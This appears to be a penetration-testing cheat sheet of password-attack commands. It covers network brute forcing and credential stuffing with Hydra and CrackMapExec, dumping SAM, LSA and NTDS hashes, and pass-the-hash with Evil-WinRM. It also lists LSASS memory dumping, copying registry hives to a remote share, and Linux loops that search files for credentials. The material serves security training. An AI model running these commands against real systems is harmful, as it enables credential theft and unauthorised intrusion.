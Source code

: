 |**Command**|**Description**|
|---|---|
|`crackmapexec winrm <ip> -u user.list -p password.list`|Uses CrackMapExec over WinRM to attempt to brute force user names and passwords specified hosted on a target.|
|`crackmapexec smb <ip> -u "user" -p "password" --shares`|Uses CrackMapExec to enumerate smb shares on a target using a specified set of credentials.|
|`hydra -L user.list -P password.list <service>://<ip>`|Uses Hydra in conjunction with a user list and password list to attempt to crack a password over the specified service.|
|`hydra -l username -P password.list <service>://<ip>`|Uses Hydra in conjunction with a username and password list to attempt to crack a password over the specified service.|
|`hydra -L user.list -p password <service>://<ip>`|Uses Hydra in conjunction with a user list and password to attempt to crack a password over the specified service.|
|`hydra -C <user_pass.list> ssh://<IP>`|Uses Hydra in conjunction with a list of credentials to attempt to login to a target over the specified service. This can be used to attempt a credential stuffing attack.|
|`crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam`|Uses CrackMapExec in conjunction with admin credentials to dump password hashes stored in SAM, over the network.|
|`crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa`|Uses CrackMapExec in conjunction with admin credentials to dump lsa secrets, over the network. It is possible to get clear-text credentials this way.|
|`crackmapexec smb <ip> -u <username> -p <password> --ntds`|Uses CrackMapExec in conjunction with admin credentials to dump hashes from the ntds file over a network.|
|`evil-winrm -i <ip> -u Administrator -H "<passwordhash>"`|Uses Evil-WinRM to establish a Powershell session with a Windows target using a user and password hash. This is one type of `Pass-The-Hash` attack.|
## Windows Local Password Attacks

|**Command**|**Description**|
|---|---|
|`tasklist /svc`|A command-line-based utility in Windows used to list running processes.|
|`findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`|Uses Windows command-line based utility findstr to search for the string "password" in many different file type.|
|`Get-Process lsass`|A Powershell cmdlet is used to display process information. Using this with the LSASS process can be helpful when attempting to dump LSASS process memory from the command line.|
|`rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`|Uses rundll32 in Windows to create a LSASS memory dump file. This file can then be transferred to an attack box to extract credentials.|
|`pypykatz lsa minidump /path/to/lsassdumpfile`|Uses Pypykatz to parse and attempt to extract credentials & password hashes from an LSASS process memory dump file.|
|`reg.exe save hklm\sam C:\sam.save`|Uses reg.exe in Windows to save a copy of a registry hive at a specified location on the file system. It can be used to make copies of any registry hive (i.e., hklm\sam, hklm\security, hklm\system).|
|`move sam.save \\<ip>\NameofFileShare`|Uses move in Windows to transfer a file to a specified file share over the network.|
|`python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`|Uses Secretsdump.py to dump password hashes from the SAM database.|
|`vssadmin CREATE SHADOW /For=C:`|Uses Windows command line based tool vssadmin to create a volume shadow copy for `C:`. This can be used to make a copy of NTDS.dit safely.|
|`cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`|Uses Windows command line based tool copy to create a copy of NTDS.dit for a volume shadow copy of `C:`.|
## Linux Local Password Attacks

| **Command**                                                                                                                                                                                       | **Description**                                                                                                           |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------- |
| `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done`                                               | Script that can be used to find .conf, .config and .cnf files on a Linux system.                                          |
| `for i in $(find / -name *.cnf 2>/dev/null \| grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null \| grep -v "\#";done`                                      | Script that can be used to find credentials in specified file types.                                                      |
| `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share\|man";done`                                       | Script that can be used to find common database files.                                                                    |
| `find /home/* -type f -name "*.txt" -o ! -name "*.*"`                                                                                                                                             | Uses Linux-based find command to search for text files.                                                                   |